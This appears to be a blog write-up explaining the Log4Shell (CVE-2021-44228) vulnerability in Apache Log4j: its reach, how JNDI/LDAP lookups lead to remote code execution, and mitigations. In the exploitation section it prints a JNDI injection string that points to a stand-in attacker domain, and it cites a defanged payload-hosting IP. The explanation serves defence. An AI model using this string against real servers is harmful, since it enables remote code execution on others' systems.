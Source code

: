 ```yaml
---
layout: post
title: Brief writeup about Log4j old 5
tags: [tracelay-writeup]
---
```

Seriousness of a vulnerability is viewed with two factors: 
1. the sheer number of systems that are vulnerable, and 
2. the ease with which an attacker can compromise a network

The vulnerability is associated with the user activity logger known as Log4J - a logging library freely distributed by the Apache Software Foundation. A security researcher working for Alibaba, Chen Zhaojun, first discovered the vulnerability and reported it to Apache on November 24, 2021 and since Dec 2021, Log4j was considered as a serious threat to come down the pipe in recent years. 

## What is Log4j and how impactful is the vulnerablity?
Log4j is a very popular Java library that has been around since 2001 and is used by countless pieces of software to log activity and error messages. Log4j will log messages in software and scan them for errors. The logging capabilities allow it to communicate with other internal functions on systems, such as directory services. This creates the opening for the vulnerability where remote code executions (RCE) allow an attacker to execute arbitrary code on a remote device.

Java is implemented across a wide spread range of digital products including cloud solutions, web servers, and apps making each of these products vulnerable to exploitation through the Log4Shell vulnerability. Hence, any Java software running systems can be impacted which is *a lot* of systems.

Because this security flaw is so widespread and most organizations are unaware that they're impacted, an exploitation frenzy is currently underway in the cybercriminal world. Security researchers have identified approximately **10 million Log4Shell exploitations attempts every hour**. Retail Industry is the most hard hit, followed by technology, financial services, manufacturing services and healthcare providers.

The [vulnerability CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) has been given the Critical rating and the highest threat score possible (10.0) by the Common Vulnerability Scoring System (CVSS), the industry standard for at-a-glance assessments of the severity of security vulnerabilities.

## How it's exploited
Lightweight Directory Acess Protocol (LDAP) is a open-source application protocol that allows apps to access and authenticate specific user info across directory services. Employees need to regularly access usernames, passwords, email addresses, endpoints, and printers to fulfill their daily tasks. Such information is stored on company directories and LDAP is the protocol that efficiently connects users and applications to this information.

LDAP maps usernames to passwords, the protocol to authenticate users. Thus allows single sign-on (SSO), where users need to sign in only once to access all protected files and applications.

The vulnerable Log4j library, when passed a specially crafted string, will call out to an LDAP server, download the code hosted in the LDAP directory, and then execute that code. 

The vulnerability occurs due to a lack of sanitization in the lookup method used in the log4j library. An attacker can leverage JNDI (Java Naming and Directory Interface) to perform a request to a remote malicious resource as follows: 
`==${jndi:ldap://[attacker_domain]/file}==`

Using different protocols such as ldap, rmi and commands like upper/ lower, an attacker can create multiple attack string combinations. In addition, many obfuscation techniques are observed to avoid detection:

![](../../../assets/images/log4j/exploit_variants.png)

This allows cybercriminals to create a malicious LDAP server that stores code designed to take-over any server where it is executed, and then send applications/databases/APIs the string that points to their code.

The primary attack is to feed messages to Log4j that instruct the system to download malicious powershell script (018h4xuvxe) and execute malware from a remote server, which then grants the attacker greater access to the victim’s system.

![](../../../assets/images/log4j/Log4j.png)

The IP 2.56.59[.]123 that contains the link for payload by HTTP request downloads the paylaod and executes the powershell script. Malware script can be written with persistence functionalities to maintain access even if the system restarts. 

## Safety Measures
1. Quickest way to mitigate is to update all instances of Log4j to the latest version - Log4j 2.17.x and latest version available
2. Utilise custom built Log4j Vulnerability scanners made by numerous popular and trusted security vendors from the Open Source - like CISA, Huntress, Arctic Wolf, CrowdStrike, Amazon Inspector & AWS, etc.,
3. Disable JNDI - A design flaw in the JNDI Lookup plugin is primarily to blame for this critical vulnerability. JNDI facilitates code execution based on data found in the log, data that can easily be manipulated since its accepted by the logger without sanitation.
4. Update all firewall and IPS and use NGFW
5. Implement MFA